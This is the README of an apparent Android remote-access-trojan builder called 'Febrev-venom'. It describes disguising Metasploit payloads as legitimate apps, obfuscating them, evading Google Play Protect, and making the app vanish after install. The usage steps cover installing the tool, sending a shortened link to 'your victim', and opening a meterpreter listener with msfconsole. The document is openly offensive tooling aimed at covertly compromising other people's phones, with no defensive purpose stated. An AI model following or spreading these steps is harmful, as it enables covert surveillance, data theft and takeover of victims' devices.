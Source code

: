 # NEW VERSION 3.0
# Febrev-venom updated to version 3.0
# Added a new functionality found by me i.e, it will disappear itself after installation 

FEBREV venom(also called febrev-droidspy) is a tool to create android RATs through metasploit,changes the icon,package name,obfuscates the apk,makes it look like a legit app , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
IT CAN BYPASS GOOGLE PLAY PROTECT.............
ALSO THE APP CREATED BY MY TOOL CAN AUTOMATICALLY DISAPPEAR AFTER INSTALLING


**must run as root
**must run in debian-based linux distro like kali
#################################################################################################################
 USAGE:
   
   **come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   ** now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    **come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 **use the generated link(the best) + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 **OR simply use the resource script generated automatically by the tool
   -> msfconsole -r <appname_listener.rc>
 # You can shorten the URL by :
    1.open another terminal without closing the current one
    2.copy the URL from the current terminal and type -> php shorturl.php <the copied url>
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
